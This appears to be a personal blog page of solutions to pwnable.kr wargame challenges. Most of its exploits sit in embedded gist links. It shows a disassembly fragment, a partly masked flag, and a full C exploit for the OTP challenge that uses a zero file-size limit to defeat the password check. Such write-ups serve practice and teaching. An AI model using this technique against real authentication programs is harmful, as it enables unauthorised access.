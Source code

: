 ```yaml
---
layout: single
title:  "pwnable.kr "
date:   2020-01-01
toc: true
toc_label: solutions
toc_sticky: true
classes: wide

---
```




## Toddler's Bottle

### UAF

**Exploit**

<script src="https://gist.github.com/0x43434343/be5e0ab1c88cbd49a1216be82ea08645.js"></script>



```
  
   0x0000000000400fb5 <+241>:   cmp    eax,0x2
   0x0000000000400fb8 <+244>:   je     0x401000 <main+316>
   0x0000000000400fba <+246>:   cmp    eax,0x3
   0x0000000000400fbd <+249>:   je     0x401076 <main+434>
   0x0000000000400fc3 <+255>:   cmp    eax,0x1
   0x0000000000400fc6 <+258>:   je     0x400fcd <main+265>
   0x0000000000400fc8 <+260>:   jmp    0x4010a9 <main+485>

```




<img src="{{ site.url }}{{ site.baseurl }}/assets/images/uaf.jpg" alt="">



### Unlink  

**Exploit**
<script src="https://gist.github.com/0x43434343/bd0fd5666f5ebfa4f5269c29de110c64.js"></script>




<img src="{{ site.url }}{{ site.baseurl }}/assets/images/unlink.jpg" alt="">




### bluekat

```
blukat@prowl:~$ ./blukat 
guess the password!
cat: password: Permission denied
congrats! here is your flag: Pl3as_************ :)
```

### horcruxes



**Static Analysis**  
<script src="https://gist.github.com/0x43434343/dd6cb737bae4c0eb87b6938999004c70.js"></script>


**Exploit**
<script src="https://gist.github.com/0x43434343/95991eb0114cdcb90210814e0e18faaf.js"></script>


## Rookiss

### brain fuck

**Static Analysis**  

<script src="https://gist.github.com/0x43434343/7cf6fb1dac98343606a83fc2de2f34d8.js"></script>

**Exploit**

<script src="https://gist.github.com/0x43434343/fc721fd935e5636c2e533a64d19d0ec5.js"></script>

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/brain.jpg" alt="">


### OTP


**Exploit**

```

otp@prowl:/tmp/aass$ cat exp2233.c 
#include <stdio.h>
#include <unistd.h> //  -> //execve
// Create a exploit for login elf file :$ 
// it might be a TOCTOU
#include <sys/resource.h>
#include <signal.h>

int main(void)
{


	struct rlimit r;
	r.rlim_cur = 0;
  r.rlim_max = 0;
  setrlimit(RLIMIT_FSIZE, &r);

  sigignore(SIGXFSZ);
  system("/home/otp/otp 0");
	return 0;

}

//ref
//https://linuxhint.com/linux_ulimit_command/

```


<img src="{{ site.url }}{{ site.baseurl }}/assets/images/otp.jpg" alt="">

